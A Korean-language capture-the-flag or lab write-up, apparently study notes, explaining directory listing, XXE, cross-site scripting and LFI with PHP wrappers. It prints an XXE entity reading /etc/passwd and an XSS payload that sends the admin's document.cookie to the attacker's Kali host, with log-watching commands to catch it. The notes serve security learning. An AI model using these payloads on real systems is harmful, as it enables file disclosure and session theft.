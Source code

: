 **디렉토리 리스팅 취약점이란?**

- 웹 서버의 설정이 미흡하여 특정 디렉토리에 대한 파일과 폴더 목록이 외부에 그대로 노출되는 취약점
- Burp Suite 혹은 F12(관리자 도구) 이용
- jpg 사진 파일이 웹 서버의 어떤 디렉토리에서 출력되는지 경로 찾아보기

***

### 12번 문제

**XXE 취약점이란?**

- 외부 엔티티 취약점: 웹 어플리케이션이 XML 데이터를 처리할 때 발생하는 취약점으로 외부 엔티티 참조를 허용할 경우 발생 가능.
- XML 파서가 외부 엔티티 선언을 허용할 때 악용됨.
- Burp Suite 이용
- php wrapper 중, file://: 서버 내부 파일을 읽는 wrapper

```
 <!ENTITY xxe SYSTEM "file:///etc/passwd">
```
**XXE Payload 삽입**

요청의 맨 위에 DOCTYPE 선언을 추가하고, 외부 엔티티를 이용해서 파일을 읽도록 구성.

&xxe;는 <!ENTITY>로 선언된 외부 엔티티를 참조함.

이 예제는 /etc/passwd를 읽지만, 실제 flag가 있을 위치로 경로를 바꿔야 함.

***

### 13번 문제

**크로스 사이트 스크립트 취약점이란?**

- 담당자에게 메일을 보내는 웹 페이지 : 요청사항에 악성 스크립트를 삽입하여, 관리자가 해당 요청을 읽는 순간 관리자 쿠키 값이 넘어옴 (reflected XSS)
- 칼리 리눅스 이용 필요 (윈도우 접속 옆 리눅스 접속)
* 칼리 리눅스는 관리자의 쿠키값을 탈취하기 위해 모니터링 기능을 위해 사용
- 리눅스 터미널 열기 (로그 모니터링 스크립트)
* 칼리 리눅스 ip 확인 명령어 : ifconfig

```
1. cd /var/log
2. service apache2 start (리눅스 로그인 비밀번호: kali)
3. sudo tail -f ./apache2/access.log
```

```
<script>location.href='http://리눅스 ip 주소(도메인)/?'+document.cookie;</script>
```
위와 같은 스크립트를 Message 칸에 입력하면 리눅스에서 쿠키값이 탈취된다.

***

### 14번 문제

**LFI(Local File Inclusion)이란?**

- 웹 애플리케이션이 사용자로부터 입력받은 값을 통해 서버의 파일을 읽도록 설계된 경우, 공격자가 임의의 로컬 파일을 포함시킬 수 있는 취약점]
- 즉, 웹 서버 내부의 중요한 파일들을 노출시키거나, 경우에 따라 원격 코드 실행(RCE)으로 이어질 수도 있음.

**PHP Wrapper**

- Wrapper는 스트림(stream) 기능의 일부로, 파일 시스템 접근, 네트워크, 압축 파일 등 다양한 자원에 접근할 수 있게 해 주는 특수한 프로토콜
- file://, php://, data://, zip:// 같은 스트림 래퍼(wrappers)를 통해 일반 파일처럼 다양한 자원을 읽고 쓸 수 있음.

***
